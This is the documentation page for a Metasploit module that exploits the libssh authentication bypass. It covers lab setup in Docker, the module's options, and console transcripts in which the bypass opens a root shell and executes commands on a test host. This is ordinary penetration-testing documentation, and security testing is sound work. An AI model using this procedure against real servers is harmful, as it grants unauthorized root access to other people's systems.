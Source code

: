 ## Introduction

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. libssh versions 0.6.0 through 0.7.5 and
0.8.0 through 0.8.3 are vulnerable.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

### Docker (Vulhub)

A prebuilt [vulhub](https://github.com/vulhub/vulhub) target is available for testing. This target does _not_ work with
the `Shell` action, only the `Execute` action. To test that scenario, use the `Docker (Custom)` steps below.

```
docker run -it -p 3333:22 vulhub/libssh:0.8.1
```

### Docker (Custom)

In an empty folder create a new `Dockerfile` with the below file contents. Note that this Dockerfile is based
on [vulhub/libssh:0.8.1](https://github.com/vulhub/vulhub/tree/4b1954c5c95140d99a4b94a7005707dd041196f6/base/libssh/0.8.1)
with changes to work with the `Shell` target:

```Dockerfile
FROM buildpack-deps:stable-scm

LABEL maintainer="phithon <root@leavesongs.com>"

COPY ssh_server_fork.patch /ssh_server_fork.patch

RUN set -ex \
    && BUILDDEP="gcc g++ make pkg-config cmake xz-utils patch" \
    && apt-get update \
    && apt-get install --no-install-recommends -y \
        ca-certificates \
        wget \
        libc6-dev \
        zlib1g-dev \
        libgcrypt20-dev \
        libgpg-error-dev \
        $BUILDDEP \
    && wget -qO- https://www.libssh.org/files/0.8/libssh-0.8.3.tar.xz \
        | xz -c -d | tar x -C /usr/src --strip-components=1 \
    && mkdir -p /usr/src/build \
    && patch /usr/src/examples/ssh_server_fork.c < /ssh_server_fork.patch \
    && cd /usr/src/build \
    && cmake \
        -DCMAKE_INSTALL_PREFIX=/usr \
        -DWITH_SERVER=ON \
        -DWITH_STATIC_LIB=ON \
        -DWITH_GSSAPI=ON \
        -DWITH_GCRYPT=ON \
        -DWITH_SFTP=ON \
        -DWITH_THREADS=ON \
        .. \
    && make && make install \
    && apt-get purge -y --auto-remove $BUILDDEP

RUN ssh-keygen -t ecdsa -m pem -f /etc/ssh/ssh_host_ecdsa_key -q -N "" \
    && ssh-keygen -t dsa -m pem -f /etc/ssh/ssh_host_dsa_key -q -N "" \
    && ssh-keygen -t rsa -m pem -b 2048 -f /etc/ssh/ssh_host_rsa_key -q -N ""

CMD /usr/src/build/examples/ssh_server_fork --hostkey=/etc/ssh/ssh_host_rsa_key --ecdsakey=/etc/ssh/ssh_host_ecdsa_key --dsakey=/etc/ssh/ssh_host_dsa_key --rsakey=/etc/ssh/ssh_host_rsa_key -p 22 0.0.0.0
```

Ensure the Metasploit patch is present in the same directory:

```
cp /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch .
```

Expected directory structure:

```
Dockerfile
ssh_server_fork.patch
```

Build the image:

```
docker build -t libssh:vulnerable .
```

Create a new container available on port `2222`:

```
docker run -it -p 2222:22 libssh:vulnerable
```

### Host

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `git apply -p1 /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Actions

```
Name     Description
----     -----------
Execute  Execute a command
Shell    Spawn a shell
```

## Options

**CMD**

Set this to a command or shell you want to execute. An `exec` channel
request will be sent instead of a `shell` channel request.

**SPAWN_PTY**

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

**CHECK_BANNER**

This is a banner check for libssh. It's not sophisticated, and the
banner may be changed, but it may prevent false positives due to how the
OOB authentication packet always returns `true`.

## Usage

Positive testing against unpatched libssh 0.8.3:

```
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Positive testing of shell commands using the `Execute` action:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set action Execute
action => Execute
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set cmd id; uname -a
cmd => id; uname -a
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] 172.28.128.3:2222 - Executed: id; uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against patched libssh 0.8.4:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.4 appears to be patched
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against an insufficiently implemented libssh server:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelOpenFailed: Session channel open failed (1)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelRequestFailed: Shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```

